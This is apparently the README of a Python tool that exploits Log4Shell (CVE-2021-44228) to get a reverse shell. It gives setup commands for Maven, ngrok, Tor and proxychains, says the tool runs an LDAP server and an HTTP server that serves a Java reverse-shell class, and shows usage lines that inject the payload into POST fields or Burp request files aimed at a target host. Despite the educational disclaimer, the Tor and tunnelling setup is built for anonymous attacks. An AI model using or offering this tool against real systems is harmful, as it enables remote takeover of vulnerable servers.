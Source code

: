 # **Log4Shell/CVE-2021-44228 - Reversing shell**  

### Exploitation vectors and affected Java runtime versions: https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/   
### This application uses the LDAP server created by https://github.com/mbechler/marshalsec

## **Disclaimer**
All information and code is provided solely for educational purposes and/or testing your own systems for these vulnerabilities.

## **Requirements**
* Python3
* Java JDK any version
* Maven required
```
sudo apt-get update
```
```
sudo apt-get -y install maven
```
* Ngrok required
```
sudo apt-get -y install ngrok
```
* Tor required
```
sudo apt-get -y install tor
```
Edit file /etc/proxychains4.conf. Add socks5  127.0.0.1 9050 to the end of file.
```
echo 'socks5  127.0.0.1 9050' >> /etc/proxychains4.conf
```
* Netcat required

## **Usage**

This application creates an environment and automatically configures the parameters for vulnerability testing.
It starts an LDAP server and sends requests to the vulnerable host, which can be used remotely through ngrok tunneling and also through the tor proxy.

Running with the netcat listen option will also create an http server that will provide a java class for the reverse shell.

Use * in the fields where the commands must be injected.

Use the same notation for the parameters as in the curl command.

```
getrevlog4shell.py -X POST -H "Content-Type: application/json" -d '{"username":"*","password":"*"}' -v <host_vulnerable>
```

It can also be used the files originated from the burpsuit edited with the insertion of * in the fields to be tested.

```
getrevlog4shell.py -r <burp_file>
```
